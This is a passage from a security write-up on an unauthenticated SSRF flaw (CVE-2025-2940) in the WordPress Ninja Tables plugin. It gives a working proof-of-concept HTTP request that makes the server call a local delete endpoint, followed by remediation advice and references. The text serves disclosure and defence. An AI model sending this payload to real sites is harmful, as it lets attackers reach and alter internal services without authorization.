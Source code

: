 ```
POST /wp-admin/admin-post.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: 146
Connection: close

action=wpf-async-request-5198d2fbe51aebbce20ad69b9ada4d77993bbc77&args[url]=http://localhost:8001/delete?id=1&args[method]=GET&args[name]=Tokuda
```

**Result**:

![Result](result.png "GET request to local service")

## Conclusion

The SSRF vulnerability in **Ninja Tables ≤ 5.0.18** shows that the `args[url]` parameter provided by the client is used directly to perform server-side requests without validation, allowing an unauthenticated attacker to force the application to access arbitrary destinations. The patch in **≥ 5.0.19** removed the unsafe code and mitigated this attack vector.

## Key takeaways

* Upgrade immediately to **5.0.19** or later.
* Do not use client input directly as a request URL — validate/normalize before use.
* Implement allowlists for hosts/ports and block private IP ranges (127.0.0.0/8, 10.0.0.0/8, 192.168.0.0/16, etc.).
* Avoid registering `admin_post_nopriv_*` endpoints for functions that perform outbound requests, or add proper permission/CSRF controls.

## References

[SSRF (Server Side Request Forgery) — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/ssrf-server-side-request-forgery/index.html)

[WordPress Ninja Tables Plugin <= 5.0.18 is vulnerable to Server Side Request Forgery (SSRF)](https://patchstack.com/database/wordpress/plugin/ninja-tables/vulnerability/wordpress-ninja-tables-easy-data-table-builder-plugin-5-0-18-unauthenticated-server-side-request-forgery-vulnerability)


---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2025-11-03-cve-2025-2940/  

